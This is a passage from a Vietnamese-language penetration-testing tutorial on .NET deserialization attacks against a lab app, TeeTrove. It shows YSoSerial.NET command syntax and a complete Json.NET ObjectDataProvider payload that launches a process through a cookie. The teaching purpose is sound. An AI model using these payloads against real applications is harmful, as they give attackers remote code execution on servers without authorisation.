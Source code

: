 Sau khi đăng nhập vào ứng dụng với thông tin tài khoản `pentest:pentest`, chúng ta thay thế cookie `TTAUTH` bằng payload của chúng ta. Trong dnSpy, chúng ta sẽ hit breakpoint và khi tiếp tục, chúng ta thấy rằng phương thức `validateSignedCookie` trả về `true`, có nghĩa là ứng dụng sẽ tiếp tục với quá trình deserialization.

Khi quá trình deserialization hoàn tất, chúng ta sẽ thấy Notepad được mở như một tiến trình con của `w3wp.exe` trong Process Explorer. Như vậy, chúng ta đã khai thác thành công lỗ hổng thứ ba này!

---
# 10. Tự động hóa khai thác với YSoSerial.NET

### Giới thiệu
Trong các phần trước, chúng ta đã phân tích thủ công các gadget deserialization và phát triển các lỗ hổng trên hai ứng dụng .NET Framework, bao gồm ba khai thác lỗ hổng deserialization đối với TeeTrove. Mặc dù việc thực hiện thủ công rất phức tạp, nhưng hiểu cách tấn công theo cách thủ công là rất quan trọng trước khi sử dụng công cụ tự động, vì công cụ có thể không luôn hoạt động chính xác hoặc có thể có những điều kiện mà công cụ không xử lý được, như là trường hợp của TeeTrove.

**YSoSerial.NET** là một công cụ mã nguồn mở có thể được sử dụng để tạo payload cho các lỗ hổng deserialization trong .NET. Công cụ này được tạo ra bởi Alvaro Muñoz, người đã tham gia vào bài thuyết trình "Friday the 13th JSON Attacks" tại BlackHat 2017.

### Cách sử dụng YSoSerial.NET
Việc sử dụng công cụ này khá đơn giản. Bạn chỉ cần tải phiên bản mới nhất từ trang Releases và giải nén tệp ZIP sau khi tải về. Cách sử dụng được mô tả trong tệp `README.md` của kho mã nguồn, nhưng các tham số quan trọng nhất là:
- `-f` để chỉ định Formatter, ví dụ: `Json.NET`, `XmlSerializer`, `BinaryFormatter`.
- `-g` để chỉ định Gadget, ví dụ: `ObjectDataProvider`, `TypeConfuseDelegate`.
- `-c` để chỉ định Command, ví dụ: `notepad`.
- `-o` để chỉ định chế độ xuất, ví dụ: `Base64` hoặc `Raw` cho dữ liệu văn bản.

Câu lệnh mẫu:
```
.\ysoserial.exe -f [Formatter] -g [Gadget] -c [Command] -o [Output]
```

YSoSerial.NET hỗ trợ nhiều gadget và formatter hơn so với các ví dụ mà chúng ta đã thảo luận, tuy nhiên cách thức hoạt động của chúng đều tương tự nhau. Nếu bạn muốn tìm hiểu thêm, YSoSerial.NET là mã nguồn mở và có nhiều bài viết/blog chi tiết về các kỹ thuật sử dụng công cụ này.

### Ví dụ 1: JSON, "Remember Me" Cookie
Chúng ta sẽ xem xét cách tạo payload cho lỗ hổng đầu tiên mà chúng ta khai thác: cookie "Remember Me", được (de)serialize sử dụng `Json.NET`. Câu lệnh sẽ giống như sau:
```
PS C:\htb> .\ysoserial.exe -f Json.Net -g ObjectDataProvider -c "notepad" -o Raw
```
Kết quả đầu ra sẽ tương tự như payload mà chúng ta phát triển thủ công trước đó:
```json
{
  '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
  'MethodName':'Start',
  'MethodParameters':{
    '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
    '$values':['cmd', '/c notepad']
  },
  'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```
Khi sao chép và dán payload này vào cookie `TTREMEMBER` trong TeeTrove, chúng ta sẽ thấy rằng một tiến trình `notepad.exe` được khởi động như mong đợi.

